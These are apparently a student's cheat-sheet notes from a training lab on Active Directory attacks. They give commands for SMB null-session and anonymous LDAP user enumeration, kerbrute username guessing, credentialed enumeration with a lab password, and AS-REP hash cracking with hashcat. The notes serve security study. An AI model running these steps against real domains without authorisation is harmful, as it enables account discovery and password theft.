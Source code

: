 

# **SMB NULL Session to Pull User List**

### **Using enum4linux**

```bash
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

### **Using rpcclient**
```bash
rpcclient -U "" -N 172.16.5.5

rpcclient $> enumdomusers
```

### **Using CrackMapExec --users Flag**

```bash
crackmapexec smb 172.16.5.5 --users
```


# **Gathering Users with LDAP Anonymous**
### **Using ldapsearch**

```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

### **Using windapsearch**

```bash
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```


# **Enumerating Users with Kerbrute**

We will use the wordlist [jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt) to enumerate users
```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

## **Credentialed Enumeration to Build our User List**

### **Using CrackMapExec with Valid Credentials**

```bash
crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```


# Cracking the kerburtue hash

- Paste the hash
```txt
`$krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:fb90f01... (rest of the hash)`
```
- Crack it
```bash
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt 

# `--force` → only if needed (e.g., with GPU driver error
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt --force
```